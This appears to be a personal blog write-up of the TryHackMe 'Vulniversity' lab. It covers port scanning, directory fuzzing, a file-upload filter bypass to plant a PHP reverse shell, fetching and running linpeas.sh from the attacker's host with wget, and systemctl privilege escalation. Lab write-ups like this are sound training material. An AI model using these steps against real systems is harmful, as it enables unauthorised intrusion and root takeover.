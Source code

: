 ```yaml
---
layout: post
title:  "THM Vulniversity"
date:   2020-06-19 20:00:00 +1000
category: hacking
---
```


# Introduction
So according to a post I saw on Medium, this is one of a series of OSCP like rooms on THM. I'll give it a go.

# Open Ports
I've got ports 21 (FTP), 22 (SSH), 139 + 445 (SMB), so maybe this is a Windows box. I also have 3128 which may be for the Squid Caching Web Proxy [(Wikipedia)](https://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers) and 3333 which is a non-standard port. I'll have to ask nmap for more details.

## Scan Detail
nmap says we've got vsftpd 3.0.3 on port 21, OpenSSH 7.2p2 on port 22, SMB on 139+445, plus:
{% highlight shell %}
3128/tcp open  http-proxy  syn-ack ttl 63 Squid http proxy 3.5.12, and
3333/tcp open  http        syn-ack ttl 63 Apache httpd 2.4.18 (Ubuntu)
{% endhighlight %}
So actually this is a Linux box with a webserver on port 3333.

The scan also says the version of Squid has a 10 out of 10 CVE, so I'm going to want to check that out. 

# Webserver
Visiting the webserver reveals a front page for a University, many of the links don't work though. There is no robots.txt, but /images and /js both offer directory listings. Let's fuzz:
{% highlight shell %}
root@kali:/opt/tryhackme/vulniversity# wfuzz --hc 404 -u http://10.10.14.79:3333/FUZZ/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
{% endhighlight %}
The fuzzing turned up a page called /internal, which appears to offer some sort of file upload. The index page for this subdirectory is index.php, so the server is running PHP. Fuzzing inside the directory finds http://10.10.14.79:3333/internal/uploads/, where our files will appear. Let's try a PHP reverse shell.

# Shell
Using the .phtml extension I could upload the pentestmonkey PHP reverse shell and connect as www-data. I copied over linpeas.sh to /dev/shm and ran it. 

{% highlight shell %}
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@vulnuniversity:/dev/shm$ wget http://10.9.10.123:8000/linpeas.sh
wget http://10.9.10.123:8000/linpeas.sh
--2020-06-19 05:41:52--  http://10.9.10.123:8000/linpeas.sh
Connecting to 10.9.10.123:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 161179 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 157.40K   176KB/s    in 0.9s    

2020-06-19 05:41:54 (176 KB/s) - 'linpeas.sh' saved [161179/161179]

www-data@vulnuniversity:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@vulnuniversity:/dev/shm$ ./linpeas.sh
{% endhighlight %}

Linpeas showed a probable privesc via SystemCTL, which can be found on [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), and sure enough this led to root.
